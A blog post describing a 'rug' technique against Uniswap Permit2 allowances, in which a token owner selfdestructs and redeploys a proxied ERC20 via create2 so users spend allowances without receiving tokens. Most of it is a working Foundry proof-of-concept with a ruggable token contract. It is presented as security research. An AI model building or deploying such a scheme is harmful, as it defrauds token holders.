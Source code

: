 +++
author = "merkleplant"
title = "Rugging ERC20 Allowances via Permit2"
date = "2022-11-21"
+++

On November 17th Uniswap released a new generation token approval contract - [`Permit2`](https://github.com/Uniswap/permit2).

`Permit2` is an exciting new piece of infrastructure enabling token approval
management independent of the ERC20 token implementation itself.

However, it also enables a new rug vector to steal allowances via sandwich
_selfdestruct_-ing and redeploying the token.
<!--more-->

**Disclaimer**: The presented rug vector is **not** a security issue in the
`Permit2` contract! I'm writing this article as I didn't hear about
such a rug vector before and wanted to share my findings.

## Introduction to `Permit2`

Via `Permit2` it is possible to manage token approvals outside of the ERC20
token itself. The contract supports more configurations for approvals, such
as time-based approvals, than a default ERC20 token.

For a user to enable the `Permit2` contract to manage its allowances,
the contract needs to have the approval to spend the user's tokens.

A user can either approve infinite tokens to the contract using `type(uint).max`
(interpreted in most ERC20 implementations as being infinite) or some finite
amount.

Note that the `Permit2` functionality can be disabled at any time by settings
its allowance back to zero.


## About `solmate` and notorious opcodes

`Permit2` uses the highly-optimized [`solmate`](https://github.com/transmissions11/solmate)
library's `ERC20` implementation and `SafeTransferLib`. As you probably know,
the ERC20 standard itself has some weaknesses concerning, among others, the
transfer of tokens.

To not have to handle ERC20's transfer issues by hand, most
projects nowadays use some "`SafeERC20TransferLib`", with the most popular ones
being the from [OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol)
and [`solmate`](https://github.com/transmissions11/solmate/blob/main/src/utils/SafeTransferLib.sol).

One major difference between the two libraries is that OpenZeppelin checks
whether a contract exists, i.e. the address' code size is non-zero, before
calling ERC20's transfer function on that address, while `solmate` abdicates
that check.

Due to the definition of the EVM's [call](https://www.evm.codes/#f1?fork=grayGlacier)
opcode, this leads to the unfortunate situation that each transfer of ERC20
tokens called on an empty, i.e. non-existing, contract succeeds.

Another infamous opcode defined in the EVM is [`selfdestruct`](https://www.evm.codes/#ff?fork=grayGlacier) with which
a contract can destroy itself, i.e. removing its code together with its storage.
`selfdestruct`, especially in composition with the [`create2`](https://www.evm.codes/#f5?fork=grayGlacier)
opcode challenges the immutability guarantees of contracts and leads to
[interesting new concepts](https://0age.medium.com/the-promise-and-the-peril-of-metamorphic-contracts-9eb8b8413c5e).


## The Idea

Recapping the last paragraph, `Permit2` is an external ERC20 allowance
management contract that continues working even if the token itself stops
existing.

Via the combination of `selfdestruct` and deterministic contract addresses
via `create2` there exists a mechanism to destroy and redeploy tokens again to
the same address.

Last but not least, using already well-known [Proxy](https://hackmd.io/@devtooligan/yAcademyGuideToProxies)
patterns, i.e. separating a contract's storage from its implementation, it is
possible to keep the token's storage during a _destruct-and-redeploy_ of a token.

Digesting all these puzzle pieces leads to the possibility for a token creator
to approve token allowances to users via `Permit2`, just to rug these allowances
from the user again by destroying the token before a user's spending
transaction while being able to redeploy the token to the same address again
afterwards.

Furthermore, having private mempools for deterministic transaction ordering and
proxy patterns for separating implementation and storage available, leads
to a new, and for unsophisticated users laborious recognizable, rug vector.


## Proof-of-Concept

Below is a PoC implementation of the allowance rug a token owner (or any
address being able to destroy the token and knowing the `create2` salt) can carry
out via the combination of `selfdestruct`-able tokens and `Permit2`.

To run the code, clone [this repo](https://github.com/pmerkleplant/Permit2-AllowanceRug)
and run `forge install && forge test --match-test "testAllowanceRugSandwich" -vvvvv`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";

import {Permit2} from "../src/Permit2.sol";

import {ERC20} from "solmate/tokens/ERC20.sol";

import {TransparentUpgradeableProxy} from
    "openzeppelin-contracts/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";
import {Create2} from "openzeppelin-contracts/contracts/utils/Create2.sol";

contract AllowanceTransferRugTest is Test {
    Permit2 permit2;

    RuggableERC20 token;
    address impl;

    address alice = address(0xCAFE);
    address eve = address(0xDEAD);
    address eveProxyAdmin = address(0xDEAD2);

    function setUp() public {
        permit2 = new Permit2();

        // Eve deploys the token implementation via create2.
        // This enables her not having to change the proxy's implementation
        // after a redeployment.
        vm.prank(eve);
        impl = Create2.deploy(uint256(0), bytes32("salt"), type(RuggableERC20).creationCode);

        // The token itself is managed via a proxy to not delete the token's
        // storage during a redeploy.
        token = RuggableERC20(
            address(
                new TransparentUpgradeableProxy({
                _logic: impl,
                admin_: eveProxyAdmin,
                _data: bytes("")
                })
            )
        );

        // Eve holds a bunch of tokens.
        token.mint(eve, 1_000e18);

        // Eve enables Permit2 and approves tokens to Alice via Permit2's
        // AllowanceTransfer functionality.
        vm.startPrank(eve);
        {
            token.approve(address(permit2), type(uint256).max);
            permit2.approve(address(token), alice, 1_000e18, type(uint48).max);
        }
        vm.stopPrank();
    }

    // This function should be executed via a private mempool, enabling Eve to
    // deterministically sandwich Alice's allowance.
    function testAllowanceRugSandwich() public {
        // Eve destroys the token implementation contract.
        _destroyTokenImplementation();

        // Alice spends allowance (without receiving tokens).
        vm.prank(alice);
        permit2.transferFrom(eve, alice, 1_000e18, address(token));

        // Eve redeploys the token implementation.
        _redeployTokenImplementation();

        // Token exists and it's storage did not change.
        assertEq(token.balanceOf(eve), 1_000e18);

        // Alice spent her Permit2 allowance...
        (uint160 amount, /*expiration*/, /*nonce*/ ) = permit2.allowance(eve, address(token), alice);
        assertEq(amount, 0);

        // ...without having received any tokens.
        assertEq(token.balanceOf(alice), 0);
    }

    function _destroyTokenImplementation() internal {
        // Note that selfdestruct is executed at the end of a tx while a foundry
        // test is always executed in one tx (see Issue [1543](https://github.com/foundry-rs/foundry/issues/1543)).
        //
        // To simulate the selfdestruct, we set the proxy's implementation to an
        // "empty" contract. However, OZ disallows setting the implementation to an
        // EOA, i.e. contract with no code.
        //
        // To simulate a contract with no code the "empty" contract only
        // implements an empty fallback.
        address empty = address(new Empty());

        vm.prank(eveProxyAdmin);
        TransparentUpgradeableProxy(payable(address(token))).upgradeTo(empty);

        // Real call would be:
        // vm.prank(eve);
        // token.destroy();
    }

    function _redeployTokenImplementation() internal {
        // Note to just change the token's implementation back to the real
        // implementation. This is due to foundry's missing feature of being
        // able to test selfdestruct.
        vm.prank(eveProxyAdmin);
        TransparentUpgradeableProxy(payable(address(token))).upgradeTo(impl);

        // Real call would be:
        // vm.prank(eve);
        // Create2.deploy(uint256(0), bytes32("salt"), type(RuggableERC20).creationCode);
    }
}

contract RuggableERC20 is ERC20 {
    address public owner;

    constructor() ERC20("Ruggable", "RUG", uint8(18)) {
        owner = msg.sender;
    }

    // Should of course not be publicly callable outside of PoC.
    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }

    function destroy() external {
        require(msg.sender == owner, "!owner");
        selfdestruct(payable(msg.sender));
    }
}

contract Empty {
    fallback() external {}
}

```
